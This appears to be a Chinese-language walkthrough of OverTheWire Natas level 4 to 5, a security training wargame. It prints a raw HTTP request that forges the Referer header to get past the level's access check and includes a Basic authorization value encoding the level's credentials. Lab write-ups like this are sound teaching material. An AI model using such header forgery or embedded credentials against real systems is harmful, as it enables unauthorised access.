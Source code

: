 ## Level 4 → Level 5

![img](img/image_20250128-212849.png)

根据页面信息，很明显就能想到是更改 Header 字段

```plaintext
GET / HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Cache-Control: max-age=0
Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR
Accept-Language: zh-CN,zh;q=0.9
Referer: http://natas5.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
